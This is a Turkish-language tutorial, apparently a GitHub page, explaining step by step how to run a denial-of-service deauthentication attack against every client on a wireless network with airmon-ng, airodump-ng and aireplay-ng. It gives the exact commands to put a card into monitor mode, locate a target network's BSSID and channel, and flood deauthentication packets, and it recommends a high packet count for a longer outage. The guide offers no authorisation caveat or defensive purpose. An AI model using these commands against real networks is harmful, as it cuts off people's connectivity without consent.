





Aireplay-ng, kablosuz ağların parolasını kırmak için sahte trafik üreten ve bu ağlara yönelik DoS (Denial of Service) saldırıları gerçekleştiren güçlü bir araçtır.

Aireplay-ng ile DoS saldırısı gerçekleştirmek için iki yöntem bulunur: Bunlardan ilki, kablosuz ağdaki belirli bir istemciye yönelikken; ikincisi, tüm ağa yönelik genel bir saldırıyı kapsar.

Bu yazıda, tüm istemcilere yönelik saldırı adımları detaylı bir şekilde açıklanacaktır.

## 1. Adım

Kablosuz ağ kartımızı monitör moduna almak için öncelikle adını öğreniyoruz.

**iwconfig**

`wlo1` yazan kısım kablosuz ağ kartımızdır (Sizde `wlan0` gibi farklı bir isim olabilir). Bu kart, kablosuz iletişimde kullanılır.

## 2. Adım

airmon-ng aracı, kablosuz ağ kartımızı monitör moduna geçirir. Monitör modundayken kart, çevredeki tüm kablosuz trafiği görebilir ve alabilir.

**airmon-ng start wlo1**

**iwconfig**

Ağ kartımız monitör moduna geçtiği için adı `wlo1mon` olarak değişmiştir.

## 3. Adım

airodump-ng aracı ile hedef ağların MAC adresleri ve kanal numaraları tespit edilir. Ayrıca ağa bağlı istemcilerin MAC adresleri de görüntülenebilir.

**airodump-ng wlo1mon**

`BSSID` kısmı ağın MAC adresidir. `CH` kısmı ise kanal numarasını ifade eder.

## 4. Adım

Hedef kablosuz ağ ile kendi ağ kartımızın kanal numarasını eşleştiriyoruz.

**iwconfig wlo1mon channel [kanalnumarası]**

## 5. Adım

Gerekli bilgileri edindikten ve kanal ayarını yaptıktan sonra, kablosuz ağa yönelik DoS saldırısına başlayabiliriz.

**aireplay-ng --deauth [paket sayısı] -a [HedefBSSID] wlo1mon**

Paket sayısını yüksek tutmak, hedef ağda daha uzun süreli bir bağlantı kesintisi yaratır.

## Kaynaklar

- [Aircrack-ng Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)
- [Aircrack-ng Ali Karaca](https://alikaraca.github.io/aircrack-ng/)
- [canyoupwn.me DDOS Attack on Wireless Access Point](https://canyoupwn.me/ddos-attack-on-wireless-access-point/)
